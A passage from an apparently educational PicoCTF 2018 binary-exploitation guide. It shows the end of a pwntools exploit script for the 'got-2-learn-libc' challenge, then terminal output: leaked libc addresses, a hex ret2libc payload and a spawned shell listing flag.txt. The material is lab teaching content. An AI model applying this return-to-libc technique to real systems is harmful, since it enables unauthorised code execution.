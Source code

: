 ```python
    p32(0x00),  #"arg2"
    p32(0x00)]) #"arg3"

print("payload: " + enhex(payload))

p.sendline(payload)
p.clean()

p.interactive()
```

```
/problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33$ python ~/got2learnlibc_exploit.py
[+] Starting local process './vuln': pid 140986
puts @ 0xf7662150
execve @ 0xf76b2670
payload: 5555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555570266bf755555555302057560000000000000000
[*] Switching to interactive mode
$ ls
flag.txt  vuln    vuln.c
```
{:.contains-term}

For the most part, we will be using `pwntools` for the remaining challenges. Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.